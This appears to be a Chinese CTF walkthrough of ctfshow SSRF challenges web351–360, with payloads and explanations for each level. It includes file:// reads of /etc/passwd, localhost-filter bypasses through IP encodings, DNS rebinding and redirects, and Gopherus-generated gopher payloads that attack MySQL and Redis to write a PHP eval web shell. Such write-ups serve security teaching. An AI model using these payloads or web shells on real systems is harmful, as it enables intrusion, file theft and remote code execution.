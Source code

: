 # web351

首先代码审计，简简单单的使用php的curl，发现没有过滤，尝试读取本地文件

```
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
?>
```

post数据`url=file:///etc/passwd`，有回显，从Burp抓包信息我看到了是nginx尝试读取nginx的配置文件

```
url=file:///etc/nginx/nginx.conf
daemon off;

worker_processes  auto;

error_log  /var/log/nginx/error.log warn;

events {
    worker_connections  1024;
}

http {
    include       /etc/nginx/mime.types;
    default_type  application/octet-stream;
    sendfile        on;
    keepalive_timeout  65;

    server {
        listen       80;
        server_name  localhost;
        root         /var/www/html;
        index index.php;

        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;

        location / {
            try_files $uri  $uri/ /index.php?$args;
        }

        location ~ \.php$ {
            try_files $uri =404;
            fastcgi_pass   127.0.0.1:9000;
            fastcgi_index  index.php;
            include        fastcgi_params;
            fastcgi_param  SCRIPT_FILENAME  $document_root$fastcgi_script_name;
        }

    }
}
```

没啥太多关键信息，主要是说了根目录，然后还发现这里有fastcgi！！！意味着我们可以通过gopher协议打fastcgi，我测试了ok的成功了，但是我们这里还是讲以下预期解

采用file协议读取flag.php

```
url=file:///var/www/html/flag.php
```

F12查看注释获取flag

```
<?php
$flag="flag{15a45540-97e2-47d8-a505-2cd9bac4ea94}";
if($_SERVER['REMOTE_ADDR']=='127.0.0.1'){
		echo $flag;
}
else{
		die("非本地用户禁止访问");
}
?>
```



# web352-353

进制绕过,这里有个在线转换网站

https://tool.520101.com/wangluo/jinzhizhuanhuan/

然后post

```
url=http://2130706433/flag.php
```

其他更改 IP 地址写法也行

```
十六进制
url=http://0x7F.0.0.1/flag.php
八进制
url=http://0177.0.0.1/flag.php
10 进制整数格式
url=http://2130706433/flag.php
16 进制整数格式，还是上面那个网站转换记得前缀0x
url=http://0x7F000001/flag.php
还有一种特殊的省略模式
127.0.0.1写成127.1
用CIDR绕过localhost
url=http://127.127.127.127/flag.php
还有很多方式不想多写了
url=http://0/flag.php
url=http://0.0.0.0/flag.php
```

# web354

DNS-Rebinding攻击绕过

```
url=http://r.xxxzc8.ceye.io/flag.php 自己去ceye.io注册绑定127.0.0.1然后记得前面加r
```

302跳转绕过也行，在自己的网站主页加上这个

```
<?php
header("Location:http://127.0.0.1/flag.php");
```

或者说群主说我丧心病狂的方式

```
我自己的域名A记录设为了127.0.0.1
```

或者有个现成的A记录是127.0.0.1的网站

```
url=http://sudo.cc/flag.php
```

# web355

设置了$host<5的限制，随便来个利用127.0.0.1=127.1刚好是5位

```
url=http://127.1/flag.php
```

# web356

更绝了限制$host<3，老规矩

```
url=http://0/flag.php
```

# web357

关键代码，不能是一些私有地址

```
if(!filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE)) {
    die('ip!');
}

```

- FILTER_FLAG_IPV4 - 要求值是合法的 IPv4 IP（比如 255.255.255.255）
- FILTER_FLAG_IPV6 - 要求值是合法的 IPv6 IP（比如 2001:0db8:85a3:08d3:1319:8a2e:0370:7334）
- FILTER_FLAG_NO_PRIV_RANGE - 要求值是 RFC 指定的私域 IP （比如 192.168.0.1）
- FILTER_FLAG_NO_RES_RANGE - 要求值不在保留的 IP 范围内。该标志接受 IPV4 和 IPV6 值。

用web354说过的DNS-Rebinding与302跳转即可解题



# web358

限制是这个

```
if(preg_match('/^http:\/\/ctf\..*show$/i',$url)){
    echo file_get_contents($url);
}
```

blackhat议题加上url解析特性php的curl默认是@后面的部分加上?url解析的时候会把他当成url解析的get请求参数

```
url=http://ctf.@127.0.0.1/flag.php?.show
```

# web359

使用工具gopherus生成即可，[工具地址](https://github.com/tarunkant/Gopherus)

```
Give MySQL username: root                                                                                                                                  
Give query to execute: select '<?php eval($_POST[pass]); ?>' INTO OUTFILE '/var/www/html/2.php';
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%4a%00%00%00%03%73%65%6c%65%63%74%20%27%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%70%61%73%73%5d%29%3b%20%3f%3e%27%20%49%4e%54%4f%20%4f%55%54%46%49%4c%45%20%27%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%32%2e%70%68%70%27%3b%01%00%00%00%01
```

然后注意

```
这部分url需要特殊字编码，curl会默认解码一次
%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%4a%00%00%00%03%73%65%6c%65%63%74%20%27%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%70%61%73%73%5d%29%3b%20%3f%3e%27%20%49%4e%54%4f%20%4f%55%54%46%49%4c%45%20%27%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%32%2e%70%68%70%27%3b%01%00%00%00%01
```

# web360

没啥好说的gopher打redis

```
url=gopher://127.0.0.1:6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252432%250D%250A%250A%250A%253C%253Fphp%2520eval%2528%2524_POST%255Bpass%255D%2529%253B%2520%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A/var/www/html%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
```

然后访问shell.php，里面的内容是这个

```
<?php eval($_POST[pass]); ?>
```

